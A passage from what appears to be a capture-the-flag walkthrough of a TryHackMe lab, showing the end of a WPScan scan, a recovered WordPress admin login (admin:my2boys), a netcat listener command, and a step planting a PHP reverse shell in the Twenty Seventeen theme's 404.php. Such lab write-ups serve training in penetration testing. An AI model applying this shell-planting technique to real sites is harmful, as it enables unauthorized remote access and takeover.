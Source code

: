 ```

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Nov 19 18:20:09 2021
[+] Requests Done: 4025
[+] Cached Requests: 38
[+] Data Sent: 2.032 MB
[+] Data Received: 2.306 MB
[+] Memory used: 288.574 MB
[+] Elapsed time: 00:06:35

```
### Here are the creds of the wp-login page 
```
admin:my2boys
```

### It's time to get a reverse shell and by starting a netcat listner
```
nc -lnvp 4444
```
### And by uploading the php reverse shell on the twenty seventeen themes 404.php page 

![img 2](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/internal/images/2.png)
